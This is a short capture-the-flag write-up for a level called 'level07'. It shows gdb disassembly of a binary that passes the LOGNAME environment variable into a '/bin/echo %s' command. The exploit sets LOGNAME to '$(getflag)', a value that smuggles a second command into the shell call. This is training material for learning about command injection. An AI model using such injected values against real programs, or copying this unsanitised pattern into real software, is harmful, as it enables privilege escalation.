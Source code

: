 ## level07

There is a level07 executable that displays "level07".

I used gdb to disassemble the program:

```gdb ./level07```
```disass main```

[...]
0x0804856f <+91>:    movl   $0x8048680,(%esp)               // x/s 0x8048680: LOGNAME
0x08048576 <+98>:    call   0x8048400 <getenv@plt>
0x0804857b <+103>:   mov    %eax,0x8(%esp)
0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)            // x/s 0x8048688: "/bin/echo %s "
0x08048587 <+115>:   lea    0x14(%esp),%eax
0x0804858b <+119>:   mov    %eax,(%esp)
0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
[...]

It is clear that the program makes a call to getenv to get the value of the environment variable LOGNAME, and then display it with /bin/echo.

Not surprisingly, the environment variable LOGNAM is currently equal to 'level07'. All I need to do is change the LOGNAME environment variable so that the program displays what I want.

```export 'LOGNAME=$(getflag)' ; ./level07``` and it's done.